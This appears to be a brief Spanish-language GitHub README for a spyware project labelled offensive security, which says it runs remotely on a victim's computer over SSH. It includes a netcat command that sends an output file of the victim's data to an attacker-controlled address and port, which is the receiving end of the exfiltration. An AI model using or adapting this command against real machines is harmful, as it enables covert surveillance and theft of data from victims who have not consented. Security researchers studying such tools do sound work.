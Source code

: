 # Spyware---Offensive-Security
Spyware de ejecución remota a una computadora víctima por SSH.

Especificar los datos de la computadora receptora de los datos de la victima en:

nc 192.168.1.227 4444 < "$archivo_salida"